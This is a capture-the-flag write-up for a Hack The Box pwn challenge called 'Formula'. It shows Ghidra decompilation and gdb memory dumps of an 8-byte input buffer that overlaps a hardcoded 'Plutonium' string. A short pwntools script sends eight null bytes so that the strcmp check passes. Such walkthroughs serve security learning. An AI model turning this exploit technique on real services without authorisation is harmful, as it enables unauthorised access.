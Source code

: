 ```yaml
---
title:  "[CTF] Formula"
categories: [CTF, HTB, Pwn]
---
```


*Marty, I found a letter from someone in my pocket that says Time Travel is possible and provides the ingredients and a secret formula. The note is not 100% readable due to the time and I cannot fully understand the handwritting either. Please help me read the note and let's get to work creating this thing!*!

## Understanding the challenge

The challenge presents a randomly-coloured flask with a story, and asks for the missing ingredient:
![Menu](/assets/images/Formula/menu.png)
Behind the scenes, we can understand more about the code from Ghidra’s decompiled version:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_20 [7];
  undefined8 local_19;
  undefined local_11;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  story();
  local_19 = 0x75696e6f74756c50;
  local_11 = 0x6d;
  read(0,local_20,8);
  iVar1 = strcmp(local_20,(char *)&local_19);
  if (iVar1 == 0) {
    success();
  }
  else {
    fail();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```


In terms of security protections against exploitation, the binary has most of the checkboxes ticked:
![Checksec](/assets/images/Formula/checksec.png)
The challenge reads the ingredient from user input into the variable `local_20` (8 bytes), and compares it with the hardcoded ingredient Plutonium (9 bytes) - `0x75696e6f74756c50` and `0x6d`.

## Vulnerability identification

To locate the vulnerability, we need to examine the stack before the comparison which leads to `success()` is being made:

```asm
=> 0x555555400efd <main+92>:    call   0x555555400a00 <strcmp@plt>
   0x555555400f02 <main+97>:    test   eax,eax
   0x555555400f04 <main+99>:    jne    0x555555400f0d <main+108>
   0x555555400f06 <main+101>:   call   0x555555400b9a <success>
   0x555555400f0b <main+106>:   jmp    0x555555400f12 <main+113>
   0x555555400f0d <main+108>:   call   0x555555400c40 <fail>
   0x555555400f12 <main+113>:   mov    eax,0x0
   0x555555400f17 <main+118>:   mov    rcx,QWORD PTR [rbp-0x8]
```

According to the [Linux x64 calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame), the first two function parameters are accessed via the RDI and RSI registers:

```asm
// Plutonium (hardcoded)
gdb$ x/16b $rsi
0x7fffffffde0f: 0x50    0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75
0x7fffffffde17: 0x6d    0x00    0x1b    0x6d    0x5b    0xc6    0x4c    0xe2

// Ingredient (user input - ABCD)
gdb$ x/16b $rdi
0x7fffffffde08: 0x41    0x42    0x43    0x44    0x0a    0x00    0x00    0x50
0x7fffffffde10: 0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75    0x6d
0x7fffffffde18: 0x00

gdb$ x/s $rsi
0x7fffffffde0f: "Plutonium"

gdb$ x/s $rdi
0x7fffffffde08: "ABCD\n"
```

So we can read 8 bytes, and the 8th one will overwrite the first letter of the first letter of the hardcoded ingredient, `0x50` (**P**). 

## Exploitation

Even if not obvious straight away, the exploitation is actually quite easy. The only option to make the two strings equal is to *make them both `NULL`*, by sending 8 zeros as the secret ingredient.


```python
from pwn import *

conn = remote('<IP>', '<PORT>')

# Receive formula
print(conn.recvrepeat(2))

conn.send('\x00' * 8)
print(conn.recvrepeat(2))

conn.close()
```

## References

* [Linux x64 calling conventions and stack frame](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame)

